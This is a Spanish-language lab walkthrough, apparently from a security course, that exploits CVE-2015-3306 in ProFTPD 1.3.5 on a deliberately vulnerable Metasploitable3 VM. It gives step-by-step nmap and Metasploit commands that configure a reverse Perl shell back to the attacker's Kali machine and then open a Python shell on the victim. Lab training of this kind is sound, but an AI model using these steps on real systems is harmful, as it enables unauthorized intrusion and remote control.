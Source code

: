# Explotar vulnerabilidad CVE-2015-3306 presente en ProFTPD 1.3.5.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasploitable3_ubu1404***.

Como ya hemos visto, ***nmap*** es la herramienta estrella para descubrir los servicios presente en una víctima que resida en la misma red local que el atacante. 


Procedemos a realizar un nmap de todos los puertos en la víctima (***192.168.20.13***). El parámetro ***-sV*** sondea los puertos abiertos para determinar la versión de cada servicio. Conocer la versión es importante para determinar si existen vulnerabilidades que se puedan implementar. (Nota: Tardará bastante tiempo. Tener paciencia)
```
nmap -sV 192.168.20.13 -p 0-65535
```

El resultado debe ser similar al siguiente. Observar como el rectángulo rojo marca que se ha detectado la aplicación ***ProFTPD 1.3.5***. También comprobar cómo el rectángulo azul indica que hay un servidor web presente en el puerto ***80***.

![ProFTPD 1.3.5](../img/lab-30-A/180820221102.png)

Localizamos información sobre vulnerabilidades en ***CVE Details*** y encontramos que existe una de ***nivel 10***: https://www.cvedetails.com/cve/CVE-2015-3306/. Abrir el link y estudiarlo detenidamente.

En la parte inferior de la página puede observar que se dice que ***No hay ningún módulo de Metasploit relacionado con esta entrada CVE***, pero eso no es correcto, como veremos a continuación.

Una búsqueda un poco más detenida demuestra que Metasploit sí que puede explotar la vunerabilidad presente en ***ProFTP 1.3.5***: https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/

Como puede leerse en la documentación, el módulo ***proftpd_modcopy_exec*** de Metasploit, se aprovecha de la vulnerabilidad presente en la implementación del comando ***SITE CPFR/CPTO*** de ***ProFTPD***. Cualquier cliente (de FTP) no autenticado (No hace falta conocer credenciales) puede aprovecharse para copiar archivos en ***cualquier carpeta*** del sistema de archivos de la víctima. Los comandos de copia se ejecutan con los derechos (identidad) del servicio ProFTP, que por defecto corre bajo los privilegios del usuario ***nobody***. Mediante el uso de ***/proc/self/cmdline*** es posible subir a la víctima un archivo php que implemente una shell inversa, mediante el cual podemos tomar el control de la víctima.


Cargamos la consola de ***Metasploit*** si no estuviera iniciada.
```
msfconsole
```

Cargamos el módulo del exploit.
```
use exploit/unix/ftp/proftpd_modcopy_exec
```

Mostramos las opciones de configuración.
```
show options
```

La salida será la siguiente.
![Opciones del módulo](../img/lab-30-A/180820221143.png)

Las configuraciones que debemos proporcionar son:

* *RHOSTS*: Obligatoria. Debemos poner la IP de la victima, que en nuestro escenario será ***192.168.20.13***.
* *RPORT*: Obligatoria. Una vez subido el payload PHP, el ataque se produce por medio de una Request HTTP. De esta forma, para que el ataque funcione, se necesita un servidor web en la víctima. Este hecho ha sido comprobado en el ejercicio anterior. Como puedes comprobar, no es necesario cambiar este valor (***80***), porque es el puerto correcto donde el servidor ***Apache*** está sirviendo peticiones.
* *RPORT_FTP*: Obligatoria. Este ataque necesita la presencia del servidor ***ProFTPD 1.3.5***, que como hemos comprobado anteriormente, está presente y escuchando en el puerto ***21***, por lo que no es necesario cambiar este ajuste.
* *SITEPATH*: Obligatoria. Es la ruta del directorio raíz del servidor web. En ***Apache*** es ***/var/www/html***. La configuración por defecto que puedes ver es ***/var/www***, que no coincide, por lo que debemos cambiarla a ***/var/www/html***. ***/proc/self/cmdline*** copiará en este directorio el payload php.
* *TARGETURI*: Obligatoria. Es la URI a la que se conectará el exploit. En ella se espera encontrar el payload php que será llamado por la Request HTTP.
* *TMPPATH*: El exploit no funciona copiando directamente el payload php a la carpeta ***/var/www/html***, si no que lo copia primero a una carpeta temporal y luego, desde ésta al directorio ***html***. Por lo tanto, la configuración debe tener una carpeta en la que no existan problemas de permisos. La candidata ideal es ***/tmp***, así que no modificamos esta configuración.

Mostramos los ***targets***, que en ***Metasploit*** son los servicios vulnerables.
```
show targets
```

La salida muestra que el único objetivo posible es ***ProFTP*** en su versión ***1.3.5***.

![show targets](../img/lab-30-A/180820221222.png)

Ninguna otra versión de esta aplicación presenta la vulnerabilidad, por lo que una simple actualización de la misma cerraría la vulnerabilidad.

Configuramos el módulo para el ataque.
```
set RHOST 192.168.20.13
```
```
set SITEPATH /var/www/html
```

Comprobamos que todas las opciones requeridas (***RHOSTS***, ***RPORT***, ***RPORT_FTP***, ***SITEPATH***, ***TARGETURI*** y ***TMPPATH***) tienen valor.
```
show options
```

Mostramos los ***Payloads*** compatibles con este ataque:
```
show payloads
```

La salida mostrará lo siguiente.

![show payloads](../img/lab-30-A/180820221239.png)

Debemos elegir un tipo de payload que pueda ejecutarse en la víctima. En la mayoría de los sistemas Linux se encuentran instalado ***Python*** y ***Perl***. Sería cuestión de ir probando si no se está seguro. En ***Metasplitable3*** están instalados todos.

Seleccionamos el payload
```
set payload payload/cmd/unix/reverse_perl
```

Cuando seleccionamos un payload, aparecen opciones adicionales a las del módulo, que debemos configurar.
```
show options
```

![opciones del payload](../img/lab-30-A/180820221245.png)

* *LHOST*: Obligatoria. Siempre es la máquina que ataca, y a la que se conectará la shell inversa cuando el payload se active. En nuestro caso es la máquina ***Kali***, así que debemos poner en ella su IP (***192.168.20.9***)
* *LPORT*: Obligatoria. Es el puerto de escucha que abrirá la máquina ***Kali***, y al que se conectará la shell inversa del payload. Para que los perimetrales no presenten impedimentos, se podría poner en valor ***80*** o, mejor ***443***. Como en el laboratorio no hay este tipo de impedimentos, dejamos el valor propuesto.
```
set LHOST 192.168.20.9
```

Iniciamos el ataque.
```
run
```

Como se puede comprobar tenemos una sesion remota. 

![Sesión remota](../img/lab-30-A/180820221305.png)

Podemos escribir comandos y ver el resultado.
```
whoami
```

También podemos mostrar la ayuda para ver las posibilidades que este payload ofrece.
```
help
```

![Comandos disponibles](../img/lab-30-A/180820221308.png)

Además de ***bajar*** o ***subir*** archivos, podemos invocar una ***shell*** más potente, basada en ***python***
```
shell
```

Esto será posible si en la víctima se encuentra instalado ***Python***. Pulsamos la tecla ***Enter*** para activar la shell.

![Shell basada en Python](../img/lab-30-A/180820221311.png)

Podemos movernos por el sistema con la identidad ***www-data***, y rápidamente vemos que tenemos permiso de escritura en el directorio ***drupal***, lo que permitiría iniciar otro tipo de ataque, por ejemplo para capturar credenciales.

![Permiso escritura en Drupal](../img/lab-30-A/180820221317.png)

Salimos de la shell de Python.
```
exit
```

Pulsamos ***CTRL+C*** para abortar la sessión y volver al prompt de ***Metasploit***.

